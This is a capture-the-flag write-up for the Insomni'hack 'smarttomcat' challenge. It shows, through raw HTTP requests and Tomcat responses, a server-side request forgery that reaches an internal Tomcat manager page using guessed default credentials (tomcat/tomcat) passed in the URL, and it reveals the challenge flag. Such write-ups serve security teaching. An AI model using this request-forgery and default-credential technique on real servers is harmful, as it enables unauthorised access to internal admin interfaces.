 >Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?
[Search interface](http://smarttomcat.teaser.insomnihack.ch/)

This is a simple challenge.

We have a web application to locate places from coordinates. A standard request would look like this:

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/index.jsp?x=1%26y=2
```

We try

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/zzz
```
and get: 

```
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 404 - /zzz</h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u>/zzz</u></p><p><b>description</b> <u>The requested resource is not available.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

Now let's try to read the contents of the Manager page

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://localhost:8080/manager/html
```

The response is

```
<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 401 - </h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>This request requires HTTP authentication.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

This application requires login, we know that tomcat uses the basic authent and the credential can be [passed in URL] (http://serverfault.com/questions/371907/can-you-pass-user-pass-for- http-basic-authentication-in-url-parameters). With a little luck, I guess the account is `tomcat / tomcat`

```
POST /index.php HTTP/1.1
Host: smarttomcat.teaser.insomnihack.ch

u=http://tomcat:tomcat@localhost:8080/manager/html
```

and we got the flag

```
We won't give you the manager, but you can have the flag : INS{th1s_is_re4l_w0rld_pent3st}
```

